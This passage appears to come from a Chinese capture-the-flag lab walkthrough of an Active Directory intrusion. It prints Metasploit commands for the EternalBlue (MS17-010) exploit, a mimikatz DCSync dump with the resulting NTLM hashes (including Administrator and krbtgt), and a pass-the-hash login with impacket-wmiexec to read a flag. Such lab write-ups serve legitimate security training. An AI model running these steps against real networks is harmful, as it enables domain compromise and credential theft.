

可以看到已经探测出来存在ms17-010漏洞了，那我们就利用攻击模块进行攻击

### 利用Exploit漏洞利用模块攻击漏洞

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 172.22.1.21

msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads #查看当前漏洞利用模块下可用的所有Payload

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp_uuid

msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```



出现win说明利用成功了

### DCSync攻击

https://tttang.com/archive/1634/

拿到权限后可以用creds_all等命令收集内网凭据，而我们控制的这台机器是有DCSync的权限的(因为这个是DC1，也就是域控制器), 所以能直接从域控上导出Hash

```bash
DCSync攻击:
DCSync的原理是利用域控制器之间的数据同步复制
DCSync是AD域渗透中常用的凭据窃取手段，默认情况下，域内不同DC每隔15分钟会进行一次数据同步，当一个DC从另外一个DC同步数据时，发起请求的一方会通过目录复制协议（MS- DRSR）来对另外一台域控中的域用户密码进行复制，DCSync就是利用这个原理，“模拟”DC向真实DC发送数据同步请求，获取用户凭据数据，由于这种攻击利用了Windows RPC协议，并不需要登陆域控或者在域控上落地文件，避免触发EDR告警，因此DCSync时一种非常隐蔽的凭据窃取方式

DCSync 攻击前提:

想进行DCSync 攻击，必须获得以下任一用户的权限：
Administrators 组内的用户
Domain Admins 组内的用户
Enterprise Admins 组内的用户域控制器的计算机帐户
即：默认情况下域管理员组具有该权限
```

这里我们用永恒之蓝打完本来就是system权限，然后我们load kiwi，抓取用户的hash

```bash
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```

- load kiwi：kiwi 是 Meterpreter 的一个扩展模块，专门用于 Windows 凭据提取（如明文密码、NTLM 哈希、Kerberos 票据等）。
- 该命令模拟域控制器（DC）的同步行为，从 xiaorang.lab 域中提取所有用户、计算机、组等对象的 NTLM 哈希 和 Kerberos 密钥，并以 CSV 格式输出。



```bash
meterpreter > load kiwi
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   270e01d3393aa0851b04c641ba914c04        532480
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
1104    XIAORANG-OA01$  b4ad0db62f781d19b428c53741f43422        4096
1108    XIAORANG-WIN7$  ef1a39e9cb56de02f6fe2953a1e56977        4096

mimikatz(powershell) # exit
Bye!
```

这里我们抓到了Administrator的hash，所以可以直接用**impacket-wmiexec**打hash传递了

### Pass The Hash

直接用impacket-wmiexec

```bash
impacket-wmiexec <DOMAIN>/<USERNAME>@<TARGET_IP> -hashes <LM_HASH:NT_HASH> [选项]
```

参数说明：

- ○`<DOMAIN>/<USERNAME>`：目标域和用户名（如 `xiaorang.lab/Administrator`）。
- ○`@<TARGET_IP>`：目标主机的 IP 地址。
- ○`-hashes <LM_HASH:NT_HASH>`：提供 NTLM 哈希（LM 部分可留空）

```bash
proxychains4 impacket-wmiexec xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 -codec gbk
成功后会进入一个交互式shell，可以执行任意系统命令,-codec gbk ：指定编码（避免中文乱码)

type Users\Administrator\flag\flag03.txt
```



完结撒花！！！

最后学习一下Pass The Hash https://blog.csdn.net/qingzhantianxia/article/details/121549146

```bash
Pass The Hash 即PTH，也是内网渗透中较未常见的一个术语，就是通过传递Windwos 本地账户或者域用户的hash值，达到控制其他服务器的目的

在进入企业内网之后，如果是Windows PC或者服务器较多的环境,极有可能会使用到hash传递来进行内网的横传，现在企业内部一般对于口令强度均有一定的要求，抓取到本地hash后可能无法进行破解，同时从Windows Vista和Windows Server 2008开始，微软默认禁用LM hash.在Windows Server 2012 R2及之后版本的操作系统中，默认不会在内存中保存明文密码，这时可以通过传递hash来进行横传。

适用场景：内网中大量主机密码相同。

hash 传递的原理是在认证过程中，并不是直接使用用户的密码进行认证的，而是使用用户的hash值，因此，攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不需要提供明文密码。在Windows系统中，通常会使用NTLM身份认证，NTLM是口令加密后的hash值。PTH是基于smb服务（139端口和445 端口
```
